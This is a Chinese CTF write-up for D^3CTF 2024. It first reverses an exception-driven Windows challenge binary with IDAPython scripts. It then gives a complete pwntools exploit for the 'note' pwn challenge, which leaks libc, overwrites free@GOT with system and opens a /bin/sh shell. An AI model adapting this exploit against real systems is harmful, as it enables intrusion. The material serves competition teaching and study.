.text:00431FAF                 jmp     short loc_431FBD
.text:00431FB1 ; ---------------------------------------------------------------------------
.text:00431FB1
.text:00431FB1 loc_431FB1:                             ; DATA XREF: .rdata:stru_434B58↓o
.text:00431FB1 ;   __except filter // owned by 431FA7
.text:00431FB1                 mov     ecx, [ebp+ms_exc.exc_ptr]
.text:00431FB4                 call    sub_431A00
.text:00431FB9                 retn
.text:00431FBA ; ---------------------------------------------------------------------------
.text:00431FBA
.text:00431FBA loc_431FBA:                             ; DATA XREF: .rdata:stru_434B58↓o
.text:00431FBA ;   __except(loc_431FB1) // owned by 431FA7
.text:00431FBA                 mov     esp, [ebp+ms_exc.old_esp]
.text:00431FBA ;   } // starts at 431FA7
.text:00431FBD
.text:00431FBD loc_431FBD:                             ; CODE XREF: sub_431F50+5F↑j
.text:00431FBD                 mov     [ebp+ms_exc.registration.TryLevel], 0FFFFFFFEh
.text:00431FC4                 mov     ecx, [ebp+ms_exc.registration.Next]
.text:00431FC7                 mov     large fs:0, ecx
```

进入异常处理函数`sub_431A00`，分别对每一种异常进行了处理。

对`sub_431A00`参数进行变量类型定义为`_EXCEPTION_POINTERS *this`，这样好看点。

```C++
unsigned int __thiscall sub_2C1A00(_EXCEPTION_POINTERS *this)
{
    ...
    GetCurrentThreadId();
    result = this->ExceptionRecord->ExceptionCode;
    if ( result <= 0xC0000005 )
    {
        if ( result != 0xC0000005 )
        {
            if ( result != 0x80000003 )
            {
                if ( result != 0x80000004 )
                    return result;
                ...
                goto LABEL_33;
            }
            ...
        }
        sub_2C1900();
    }
    if ( result != 0xC0000096 )
        return result;
    ...
    return -1;
}
```

处理的异常：

```C
// 线程尝试从虚拟地址读取或写入其没有相应访问权限的虚拟地址
#define STATUS_ACCESS_VIOLATION 0xc0000005

// int3断点
#define STAUSBREAKPOINT 0x80000003

// 硬件调试断点产生的异常，即单步异常
// Dr0 ~ Dr3用于设置硬件断点
// 触发异常后，B0 ~ B3对应的位会被置1，以此可以区分单步步入产生的单步异常
#define STATUS_SINGLE_STEP 0x80000004

// 线程尝试执行在当前计算机模式下不允许其操作的指令
#define STATUS_PRIVILEGED_INSTRUCTION 0xc0000096
```

处理int3异常`0x80000003`：

```C
if ( byte_2C6028 )
{
    byte_2C6028 = 0;
    R3 = (int)malloc(4u);
    R1 = (int)malloc(4u);
    R2_ = malloc(4u);
    R1_ = R1;
    index_ = index;
    R2__ = R2_;
    R2 = (int)R2_;
    *(_DWORD *)R1 = 0;
    *R2_ = 0;
    R1__ = R1_;
    if ( bin_input_length > index_ )
    {
        bin_input = &input_bin;
        if ( (unsigned int)some_num >= 0x10 )
            bin_input = (void **)input_bin;
        R3_ = R3;
        num = 0;
        *(_DWORD *)R3 = *((_BYTE *)bin_input + index_) != '0';
        index = index_ + 1;
        for ( i = 0; i < 0x483D; ++i )
        {
            if ( *((_BYTE *)&code + i) == 0xFF
                && *((_BYTE *)&code + i + 1) == 0xFF
                && *((_BYTE *)&code + i + 2) == 0xFF
                && *((_BYTE *)&code + i + 3) == 0xFF )
            {
                v11 = num % 5;
                if ( num % 5 == 1 || v11 == 3 )
                {
                    new_code = R1__;
                }
                else if ( v11 == 2 || v11 == 4 )
                {
                    new_code = (int)R2__;
                }
                else
                {
                    new_code = R3_;
                }
                *(_DWORD *)((char *)&code + i) = new_code;
                ++num;
                i += 3;
            }
        }
        this->ContextRecord->Eip = (DWORD)&code;
        this->ContextRecord->EFlags |= 0x100u;
        return -1;
    }
    LABEL_39:
    sub_2C28B0();
}
sub_2C1200(0);
```

`byte_2C6028`为标志变量，使该异常只进入一次，之后不会再进入。

`malloc`了三个`int`，将原来代码中的`0xFFFFFFFF`进行修改，使其使用请求的空间进行处理。

```assembly
# 修改之前
.data:00746030                 mov     eax, 0xFFFFFFFF
.data:00746035                 mov     eax, [eax]
.data:00746037                 mov     eax, 0xFFFFFFFF
.data:0074603C                 mov     dword ptr [eax], 0Bh
.data:00746042                 mov     eax, 0xFFFFFFFF
.data:00746047                 mov     dword ptr [eax], 0
.data:0074604D                 cli
...

# 修改之后
# unk_9158F8、unk_915088、unk_917F40为malloc出来的3个地址
.data:00746030                 mov     eax, offset unk_9158F8 # R3
.data:00746035                 mov     eax, [eax]
.data:00746037                 mov     eax, offset unk_915088 # R1
.data:0074603C                 mov     dword ptr [eax], 0Bh
.data:00746042                 mov     eax, offset unk_917F40 # R2
.data:00746047                 mov     dword ptr [eax], 0
.data:0074604D                 cli
...
```

`*(_DWORD *)R3 = *((_BYTE *)bin_input + index_) != '0'`这里根据输入的二进制字符串来给`R3`赋值。

`this->ContextRecord->Eip = (DWORD)&code`这一步将处理异常后的执行的代码为`loc_436030`。

`this->ContextRecord->EFlags |= 0x100u`这一步将TF标志寄存器修改为1，表示开启单步追踪模式。

> 在单步追踪模式下，CPU在每条指令执行完后会产生一个中断，相应的中断处理程序可以拿这个机会来检查并控制程序的执行。这一特性常常被用于调试器的实现中，以便于程序员对程序进行逐条指令的执行过程调试。
>
> TF标志就算在程序代码中被设置了，也只会在当前指令后的下一条指令中生效；同时这个标志也不会被普通的程序代码继承，也就是说在中断返回后，TF标志会自动清0，恢复为普通运行模式。



由于开启了单步追踪模式，在执行`code`的时候，走一条指令会异常一次，执行以下异常处理流程：

判断发生异常的地址与`code`的地址的距离（低6位）是否为7，以及`eax`是否为1。

若判断成功，则`eip+=23`，执行另一个代码块，相当于条件语句了。

最后再次设置TF标志寄存器为1，保持单步追踪模式。

```C++
ContextRecord = this->ContextRecord;
if ( ((ContextRecord->Eip - (_DWORD)&code) & 0x3F) == 7 && ContextRecord->Eax == 1 )
    ContextRecord->Eip += 23;
v4 = this->ContextRecord;
goto LABEL_33;

...
LABEL_33:
v4->EFlags |= 0x100u;
return -1;
```

发生异常的地址与`code：0x746030`的地址的距离（低6位）为7的代码都为`mov eax, [eax]`之后，此时判断`eax`是否为1。

即判断`R3`的值是否为一，此时输入的`bin_input`字符串是否为“1”。

如果判断失败，则继续执行part1；如果判断成功，则执行part2。

```assembly
.data:007474B0                 mov     eax, offset R3_
.data:007474B5                 mov     eax, [eax]
# part1
.data:007474B7                 mov     eax, offset R1_
.data:007474BC                 mov     dword ptr [eax], 10h
.data:007474C2                 mov     eax, offset R2_
.data:007474C7                 mov     dword ptr [eax], 3
.data:007474CD                 cli
# part2
.data:007474CE                 mov     eax, offset R1_
.data:007474D3                 mov     dword ptr [eax], 9
.data:007474D9                 mov     eax, offset R2_
.data:007474DE                 mov     dword ptr [eax], 1
.data:007474E4                 cli
```

`code`中还有`cli`指令，导致`STATUS_PRIVILEGED_INSTRUCTION`异常，执行如下代码：

修改`R3`为下一个`input_bin`。

修改接下来执行`code + (R1 + R2 * 17) * 64`处的代码。

```C++
v13 = index;
v14 = *(_DWORD *)R1 + 17 * *(_DWORD *)R2;
if ( index >= (unsigned int)bin_input_length )
{
    sub_741200(1);
    goto LABEL_39;
}
v15 = &input_bin;
if ( (unsigned int)some_num >= 0x10 )
    v15 = (void **)input_bin;
*(_DWORD *)R3 = *((_BYTE *)v15 + index) != 48;
index = v13 + 1;
this->ContextRecord->Eip = (DWORD)&code + 64 * v14;
v4 = this->ContextRecord;
LABEL_33:
v4->EFlags |= 0x100u;
return -1;
```

因此，逻辑应该是执行代码块，根据`bin_input`更改`R3`，然后根据`R3`判断执行part1还是part2，然后代码块更改`R1`、`R2`，执行，跳转下一个代码块...

每个代码块相距64。

看其他处理异常的逻辑。

处理`STATUS_ACCESS_VIOLATION`的逻辑：解密字符串，打印`Great!Your input is right, you finally found a way out of the forestt`，因此输入正确flag最后会触发`STATUS_ACCESS_VIOLATION`异常。

```C
void __noreturn sub_741900()
{
    int v0; // eax
    const char *v1; // eax

    v0 = sub_741920();
    v1 = (const char *)sub_742260(v0);
    puts(v1);
    exit(0);
}
char *sub_741920()
{
    int *ThreadLocalStoragePointer; // eax
    int v1; // ecx
    unsigned __int64 i; // rax
    __int128 v4[4]; // [esp+8h] [ebp-4Ch]
    int v5; // [esp+48h] [ebp-Ch]
    char v6; // [esp+4Ch] [ebp-8h]

    ThreadLocalStoragePointer = (int *)NtCurrentTeb()->ThreadLocalStoragePointer;
    v4[0] = xmmword_7442F0;
    v5 = 0x47684E1B;
    v1 = *ThreadLocalStoragePointer;
    v4[1] = xmmword_7443E0;
    v6 = 116;
    v4[2] = xmmword_744330;
    v4[3] = xmmword_744390;
    if ( dword_74AEEC > *(_DWORD *)(v1 + 4) )
    {
        _Init_thread_header(&dword_74AEEC);
        if ( dword_74AEEC == -1 )
        {
            byte_74AE45 = 1;
            for ( i = 0i64; i < 0x45; ++i )
                byte_74AE00[i] = *((_BYTE *)v4 + i);
            atexit(sub_743F30);
            _Init_thread_footer(&dword_74AEEC);
        }
    }
    return byte_74AE00;
}
void *__thiscall sub_742260(void *this)
{
    sub_742470();
    return this;
}
void __thiscall sub_742470(_BYTE *this)
{
    unsigned int v1; // ebx
    unsigned int i; // esi

    if ( this[69] )
    {
        v1 = 0;
        i = 0;
        do
        {
            this[i] ^= 0x9CBA5674331B2B69ui64 >> (8 * (i & 7));
            v1 = (__PAIR64__(v1, i++) + 1) >> 32;
        }
        while ( __PAIR64__(v1, i) < 0x45 );
        this[69] = 0;
    }
}
```

### 解题

用脚本把代码块地址跑出来：

```python
from idc_bc695 import *
code = 0x746030
def get_way(index):
    if Dword(index) == 0xFFFFFFB8 and Byte(index + 4) == 0xFF:
        if Byte(index + 29) == 0xFA and Byte(index + 52) == 0xFA:
            R1 = Dword(index + 14)
            R2 = Dword(index + 25)
            part1 = [R1, R2]
            R1 = Dword(index + 37)
            R2 = Dword(index + 48)
            part2 = [R1, R2]
            next = {
                '0': code + (part1[0] + part1[1] * 17) * 64,
                '1': code + (part2[0] + part2[1] * 17) * 64,
            }
            print(f"{hex(index)}:\t0:{hex(next['0'])}\t1:{hex(next['1'])}")
            if next['0'] != index:
                get_way(next['0'])
            if next['1'] != index:
                get_way(next['1'])
            return
    if Word(index) == 0x3CD and Word(index + 2) == 0x2DCD:
        print(f"{hex(index)}:\tEnd")
        return
    print(f"{hex(index)}:\tError")
get_way(code)
```

跑出来的结果，在`0x74466f0`的代码块Error了，猜测是触发`STATUS_ACCESS_VIOLATION`异常的代码块。

修改一下脚本，直接得到flag：

```Python
from idc_bc695 import *
code = 0x746030
def get_way(index, way):
    if Dword(index) == 0xFFFFFFB8 and Byte(index + 4) == 0xFF:
        if Byte(index + 29) == 0xFA and Byte(index + 52) == 0xFA:
            R1 = Dword(index + 14)
            R2 = Dword(index + 25)
            part1 = [R1, R2]
            R1 = Dword(index + 37)
            R2 = Dword(index + 48)
            part2 = [R1, R2]
            next = {
                '0': code + (part1[0] + part1[1] * 17) * 64,
                '1': code + (part2[0] + part2[1] * 17) * 64,
            }
            print(f"{hex(index)}:\t0:{hex(next['0'])}\t1:{hex(next['1'])}")
            if next['0'] != index:
                get_way(next['0'], way + [0])
            else:
                print(f"\t{hex(next['0'])}:Same")
            if next['1'] != index:
                get_way(next['1'], way + [1])
            else:
                print(f"\t{hex(next['1'])}:Same")
            return
    if Word(index) == 0x3CD and Word(index + 2) == 0x2DCD:
        print(f"{hex(index)}:\tEnd")
        return
    print(f"{hex(index)}:\tError")
    binary_string = ''.join(str(i) for i in way)
    string = ''.join(chr(int(binary_string[i:i+8], 2)) for i in range(0, len(binary_string), 8))
    print(string)

get_way(code, [])
```



## note

👉[“凌武杯” D^3CTF 2024 官方 WriteUp](https://mp.weixin.qq.com/s?__biz=MzkxNzU4OTM0MA==&mid=2247484634&idx=1&sn=f80392917739d8c0d036d27dfd0f0d4c&chksm=c1bf18e9f6c891ff4866f78746ea7c6e237b10d1e7ddee45bdcc9f654a5292da7336f0aaf8fb&mpshare=1&scene=23&srcid=0430AkULY54BqatZLQw5nc1G&sharer_shareinfo=73458752b657ac41b441edb5ef897c1c&sharer_shareinfo_first=73458752b657ac41b441edb5ef897c1c#rd)

```C
void __fastcall __noreturn main(int a1, char **a2, char **a3)
{
    setbuf(stdin, 0LL);
    setbuf(stdout, 0LL);
    setbuf(stderr, 0LL);
    while ( 1 )                                   // delete
    {
        while ( 1 )
        {
            choice = writeNum();
            if ( choice != 6425 )
                break;
            index_a = writeNum();
            free((void *)note[2 * index_a + 1]);
            note[2 * index_a + 1] = 0LL;
            LODWORD(note[2 * index_a]) = 0;
        }
        if ( choice > 6425 )
        {
            LABEL_13:
            puts("Invalid choice");
        }
        else if ( choice == 2064 )                  // edit
        {
            index = writeNum();
            write2ptr(note[2 * index + 1], note[2 * index]);
        }
        else
        {
            if ( choice > 2064 )
                goto LABEL_13;
            if ( choice == 276 )                      // create
            {
                index__ = writeNum();
                len = writeNum();
                LODWORD(note[2 * index__]) = len;
                note[2 * index__ + 1] = malloc(len);
                write2ptr(note[2 * index__ + 1], len);
            }
            else
            {
                if ( choice != 1300 )                   // read
                    goto LABEL_13;
                index_ = writeNum();
                puts((const char *)note[2 * index_ + 1]);
            }
        }
    }
}
```

`index`没有限制，因此可以任意读取`addr % 16 = 8`的地址所指向的数据。

可以通过在LOAD段中指向全局偏移表（GOT）的指针，来泄露libc库的地址。

然后利用可以自定义note的长度，来将`free_got`的低四字节改为`system`的低四字节（这里`system`的低四字节转化为有符号整数，不能为负数，是负数就多试几次）。

```Python
from pwn import *
from pwn import p64, u64, p32, u32
import os

context.terminal = ['tmux', 'splitw', '-h', '-p', '80']
context.log_level = 'debug'
context.arch = 'amd64'

fileName = './pwn'
libcName = './libc.so.6'
sh = process(fileName)
# sh = remote('47.116.173.108', 32150)
elf = ELF(fileName)
libc = ELF(libcName)
chunck_addr = 0x4040A0

def show(index, getResult=True):
    sh.sendline(b'1300')
    time.sleep(0.3)
    sh.sendline(str(index).encode())
    if getResult:
        result = sh.recvline()
        print(result)
        return result
    return b''

def add(index, len, content):
    sh.sendline(b'276')
    time.sleep(0.3)
    sh.sendline(str(index).encode())
    time.sleep(0.3)
    sh.sendline(str(len).encode())
    time.sleep(0.3)
    sh.sendline(content)
    
def delete(index):
    sh.sendline(b'6425')
    time.sleep(0.3)
    sh.sendline(str(index).encode())

# 执行一次free操作
add(1, 0x100, b'abc')
delete(1)

# 泄露puts地址，计算libc地址
pointer_to_puts_got_addr = 0x00400688  
offset = pointer_to_puts_got_addr - chunck_addr
assert offset % 16 == 8
index = (offset - 8) // 16
puts_addr = show(index)
puts_addr = u64(puts_addr[:6].ljust(8, b'\x00'))
libc_addr = puts_addr - libc.symbols['puts']

system_addr = libc_addr + libc.symbols['system']
print(f'libc_addr: {hex(libc_addr)}')
print(f'system_addr: {hex(system_addr)}')

# 修改free_got为system_addr
free_got = elf.got['free']
pause()
offset = free_got - chunck_addr
assert offset % 16 == 0
index = offset // 16
payload = int.from_bytes(p64(system_addr)[:4], 'little', signed=True)
assert payload >= 0
add(index, payload, b'/bin/sh\x00')
pause()
# 执行system('/bin/sh')
delete(index)
sh.interactive()
```

